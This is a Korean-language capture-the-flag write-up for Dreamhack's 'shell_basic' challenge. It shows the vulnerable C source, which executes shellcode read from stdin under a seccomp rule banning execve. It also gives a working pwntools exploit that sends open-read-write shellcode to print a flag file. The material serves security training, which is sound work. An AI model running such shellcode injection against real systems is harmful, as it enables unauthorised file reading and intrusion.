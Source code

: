 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## 문제 분석 

 처음 문제를 풀기전에는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);``` 의 뜻은 핵심만 말하자면 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. 스택오버플로우에서 찾아보니 메모리 할당하는 방법 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 쉘코드를 실행시킬 수 있는 것이다.

이 문제의 목적은 제시한 플래그 파일을 읽어서 플래그를 획득(출력)하는 것이다. 
즉 우리는 orw shellcode를 이용하는 exploit script를 작성하면 된다.

## exploit script 

다음은 해당 문제에 대한 exploit script로 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
from pwn import* 
# importing pwntools
p = remote('host1.dreamhack.games',10732) 
# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용 인자는 각각 호스트와 포트

context.arch = 'amd64' 
#공격 대상 아키텍쳐는 x86-64

path = "/home/shell_basic/flag_name_is_loooooong"
#flag 위치와 이름

code = ''

code += shellcraft.open(path,0 ,0)
#shellcraft를 이용하여 open system call의 쉘코드를 사용.

code += shellcraft.read('rax','rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다. 주의해야할 점은 buffer 인자로 rsp - count가 아니라 rsp 값을 대입해야한다.

code += shellcraft.write(1,'rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#인자가 read와 같다.

print(p.recv())
#출력데이터 받아서 출력.

p.sendline(asm(code)) 
#작성한 쉘코드+'\n'를 기계어로 변환하여 전송 

print(p.recvuntil('}'))
#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
```
